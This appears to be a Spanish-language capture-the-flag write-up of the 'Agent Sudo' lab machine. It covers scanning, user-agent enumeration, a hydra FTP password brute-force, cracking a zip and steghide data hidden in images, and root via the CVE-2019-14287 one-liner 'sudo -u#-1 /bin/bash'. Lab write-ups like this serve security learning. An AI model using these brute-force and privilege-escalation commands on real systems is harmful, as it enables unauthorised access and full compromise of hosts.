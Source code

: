 # Agent Sudo
## Initial Scan
```
21/tcp open  ftp     vsftpd 3.0.3
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 ef:1f:5d:04:d4:77:95:06:60:72:ec:f0:58:f2:cc:07 (RSA)
|   256 5e:02:d1:9a:c4:e7:43:06:62:c1:9e:25:84:8a:e7:ea (ECDSA)
|_  256 2d:00:5c:b9:fd:a8:c8:d8:80:e3:92:4f:8b:4f:18:e2 (ED25519)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: Annoucement

```
## Enum
### HTTP
```
 Dear agents,

Use your own codename as user-agent to access the site.

From,
Agent R 
```
Suponiendo que cada agente use la letra como nombre en clave tendriamos que ir testeando usuarios de la A a la Z a ver con cual tenemos acceso

Con el agente C tenemos lo siguiente
```
Attention chris,

Do you still remember our deal? Please tell agent J about the stuff ASAP. Also, change your god damn password, is weak!

From,
Agent R 
```
Sabiendo que chris tiene una contraseña debil probamos en el ftp de la máquina a ver si podemos acceder
```
$ hydra -l chris -P /home/pj/rockyou.txt ftp://10.10.51.149
Hydra v9.0 (c) 2019 by van Hauser/THC - Please do not use in military or secret service organizations, or for illegal purposes.

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2020-08-26 15:03:59
[DATA] max 16 tasks per 1 server, overall 16 tasks, 14344401 login tries (l:1/p:14344401), ~896526 tries per task
[DATA] attacking ftp://10.10.51.149:21/
[STATUS] 124.00 tries/min, 124 tries in 00:01h, 14344277 to do in 1927:60h, 16 active
[21][ftp] host: 10.10.51.149   login: chris   password: crystal
```
### FTP
```
-rw-r--r--    1 0        0             217 Oct 29  2019 To_agentJ.txt
-rw-r--r--    1 0        0           33143 Oct 29  2019 cute-alien.jpg
-rw-r--r--    1 0        0           34842 Oct 29  2019 cutie.png
``` 
#### To agent J
```
Dear agent J,

All these alien like photos are fake! Agent R stored the real picture inside your directory. Your login password is somehow stored in the fake picture. It shouldn't be a problem for you.

From,
Agent C
```
Con binwalk podemos ver un zip , sacamos el hash del archivo para john con zip2john y despues lo crackeamos usando john
```
alien            (8702.zip/To_agentR.txt)
```
La nota pone lo siguiente
```
Agent C,

We need to send the picture to 'QXJlYTUx' as soon as possible!

By,
Agent R
```
Es el base64 de Area51, antes mirando las fotos note que una de ellas tenia las strings que deja Steghide en las imagenes , veamos si puedo extaer un archivo con esa clave
```
Hi james,

Glad you find this message. Your login password is hackerrules!

Don't ask me why the password look cheesy, ask agent R who set this password for you.

Your buddy,
chris
```
Con esto ya podemos logearnos como james ia SSH
## Privesc 
```
User james may run the following commands on agent-sudo:
    (ALL, !root) /bin/bash
```
Viendo que tenemos la restrincion de (ALL, !root) probamos el CVE 2019-14287
```
sudo -u#-1 /bin/bash
```
Y ya tenemos shell como root

## Analisís de la intrusion
Es muy CTF para hacer un analisís mas allá del propio CVE y la politica de contraseñas
###  CVE 2019-14287
Este CVE permite abusar de una restrincion hecha precisamente para evitar escalr privilegios, para lograr escalr privilegiso de forma efectiva
